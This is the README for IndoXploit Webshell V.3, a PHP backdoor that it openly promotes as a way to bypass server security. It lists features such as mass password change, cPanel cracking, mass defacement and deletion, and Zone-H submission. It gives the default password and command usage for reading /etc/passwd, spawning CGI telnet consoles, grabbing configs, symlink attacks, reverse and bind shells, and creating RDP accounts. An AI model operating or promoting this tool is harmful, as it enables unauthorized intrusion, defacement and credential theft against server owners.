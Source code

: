 # IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by **agussetyar** from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - Read File
 usage: rf [filename]
 example: rf /etc/passwd

 - Spawn File/Tools 
 usage: spawn [name]

 [name]
- Adminer (adminer)
 - WebConsole (webconsole)
 - CGI Telnet 1 (cgitelnet1)
 - CGI Telnet 2 (cgitelnet2)
 - PHPINFO (phpinfo)

 example:
 spawn adminer
 spawn webconsole
 spawn cgitelnet1

- Jumping
usage: jumping

- Config Grabber
usage: idxconfig

 - Symlink 
 usage: symlink

 - Reverse Shell 
 [Back Connect]
 usage: rvr bc [IP] [PORT] [TYPE]
 example:
 ~~~
 rvr bc 127.0.0.1 1337 bash
 rvr bc 127.0.0.1 1337 perl
~~~

 [Bind Port]
 usage: rvr bp [PORT] [TYPE]
 example:
~~
 rvr bp 1337 perl
~~

 - KRDP - Create RDP Account (for windows server only) 
 usage: krdp

 ***Logout From Shell***
 usage: 
 logout

 ***Kill Backdoor***
usage: killme

 ## Contribute
 Drop an email at **shu@indoxploit.or.id** and tell us what your suggestions about how to improve this webshell.

